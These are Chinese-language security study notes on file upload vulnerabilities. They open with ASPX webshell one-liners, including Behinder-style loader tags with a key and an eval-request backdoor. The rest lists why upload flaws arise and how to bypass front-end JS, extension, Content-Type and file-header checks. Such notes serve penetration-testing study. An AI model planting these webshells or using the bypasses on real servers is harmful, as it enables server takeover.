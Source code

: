

### ASPX

```aspx
##aspx
<scriptrunat=”server”>WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y (“add6bb58e139be10″);</script> 

<script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script> 

<%eval request(chr(35))%>  不用双引号的一句话。

```



## 文件上传漏洞产生的原因：

文件扩展名没有限制

MIMETYPE没有检查

没有设置上传文件目录的权限为不可执行









## 防御及绕过



### 前端js限制文件后缀名



直接改js文件，禁用js之类的



### 服务器端检查后缀名，设置白名单最好

改后缀名

### 检查Content-Type



bp直接修改Content-Type为application/php改为其他web程序允许的类型



### 检查文件头标志位



这种是稍微严格的检测，每一种类型的文件都会有不一样的开头或者标志位，可以使用010查看
